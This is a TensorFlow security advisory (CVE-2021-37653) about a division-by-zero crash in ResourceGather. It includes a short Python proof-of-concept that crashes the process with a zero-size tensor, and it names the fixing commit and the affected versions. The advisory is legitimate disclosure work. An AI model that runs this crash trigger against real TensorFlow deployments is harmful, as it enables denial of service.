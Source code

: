 ## TFSA-2021-127: Division by 0 in `ResourceGather`

### CVE Number
CVE-2021-37653

### Impact
An attacker can trigger a crash via a floating point exception in
`tf.raw_ops.ResourceGather`:

```python
import tensorflow as tf

tensor = tf.constant(value=[[]],shape=(0,1),dtype=tf.uint32)
v = tf.Variable(tensor)
tf.raw_ops.ResourceGather(
  resource=v.handle,
  indices=[0],
  dtype=tf.uint32,
  batch_dims=1,
  validate_indices=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/f24faa153ad31a4b51578f8181d3aaab77a1ddeb/tensorflow/core/kernels/resource_variable_ops.cc#L725-L731)
computes the value of a value, `batch_size`, and then divides by it without
checking that this value is not 0.

### Patches
We have patched the issue in GitHub commit
[ac117ee8a8ea57b73d34665cdf00ef3303bc0b11](https://github.com/tensorflow/tensorflow/commit/ac117ee8a8ea57b73d34665cdf00ef3303bc0b11).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
